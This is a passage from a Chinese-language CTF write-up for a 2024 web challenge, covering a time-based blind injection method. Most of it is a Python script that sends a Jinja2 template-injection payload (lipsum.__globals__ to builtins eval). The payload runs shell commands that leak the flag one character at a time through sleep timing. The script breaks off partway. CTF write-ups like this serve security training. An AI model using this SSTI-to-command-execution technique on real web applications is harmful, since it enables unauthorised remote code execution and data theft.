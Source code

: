 ![alt text](images/image13.png)

### #2 盲注法
> 参考 ： [2024“国城杯”网络安全挑战大赛题解](https://www.zxcms.com/content/i0d8pwy331l69g.html#%E6%B3%95%E4%B8%80%EF%BC%9Ashell%E7%9B%B2%E6%B3%A8)

根据提目特点，肯定选择时间盲注(类似题目可参考[WuCup_Web-TimeCage](https://github.com/Q1ngD3ngY1/CTF/blob/main/2024%E7%AC%AC%E4%B8%80%E5%B1%8AWuCup/web/Timecage/wp.md))，脚本如下：
```python
import requests
import string
import time
import lipsum

url = 'http://ip:port/shell?shellcmd={{lipsum|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("eval")(request|attr("POST")|attr("get")("shell"))}}'
charset = string.ascii_letters+string.digits+'{'+'}'+'-'
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Connection': 'close'
}
cookies = {
    'session':'your sesssion value'
}

session = requests.Session()
session.headers.update(headers)
session.cookies.update(cookies)

def get_readflag_out():
    output = ''
    i = 1
    while True:
        for c in charset:
            command = f"sleep $(/readflag | cut -c {i} | tr {c} 8)"
            shell = f'__import__("os").system("{command}")'
            data = {
                "shell":shell
```